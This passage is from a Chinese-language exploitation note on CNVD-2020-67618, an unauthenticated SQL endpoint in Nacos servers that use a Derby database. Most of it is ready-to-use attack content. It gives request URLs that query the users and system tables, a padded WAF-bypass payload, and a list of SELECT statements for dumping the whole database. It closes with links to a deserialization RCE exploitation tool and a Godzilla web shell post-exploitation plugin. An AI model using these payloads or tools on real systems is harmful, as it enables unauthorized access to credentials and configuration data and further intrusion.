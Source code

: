 # 0x04 CNVD-2020-67618 sql注⼊
## 1. 漏洞概述
Nacos config server 中有未鉴权接⼝，执⾏ SQL 语句可以查看敏感数据，可以执⾏任意的 SELECT 查询语句。
## 2. 影响版本
使用derby数据库进行部署的Nacos
## 3. 漏洞复现
```
/nacos/v1/cs/ops/derby?&sql=SELECT *FROM users
/nacos/v1/cs/ops/derby?sql=select+*+from+sys.systables
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
/nacos/v1/cs/ops/derby?sql=select%20*%20from%20users
```
绕过：
```
/nacos/v1/cs/ops/derby?sql=SELECT-
-/dssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssa
ddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssadd
ssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssadds
saddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddss
addssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssa
ddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssad
dssaddssaddssaddssaddssaddssaddssaddssad&sql=/%0a*-
-/%25&q=dssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddss
addssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssa
ddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssad
dssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssadd
ssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssadds
saddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddss
addssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssaddssa
ddssaddssaddssaddssaddssaddssaddssaddssaddssad%&sql=%0afrom-
-/&sql=/%0ausers
```
其他sql语句，利⽤这些语句可以直接查询整个数据库：
```
select * from users
select * from permissions
select * from roles
select * from tenant_info
select * from tenant_capacity
select * from group_capacity
select * from config_tags_relation
select * from app_configdata_relation_pubs
select * from app_configdata_relation_subs
select * from app_list
select * from config_info_aggr
select * from config_info_tag
select * from config_info_beta
select * from his_config_info
select * from config_info
```
# 0x05 工具
反序列化漏洞利⽤⼯具
```
https://github.com/c0olw/NacosRce/releases/tag/v0.5
```
哥斯拉nacos后渗透插件
```
https://github.com/pap1rman/postnacos
```
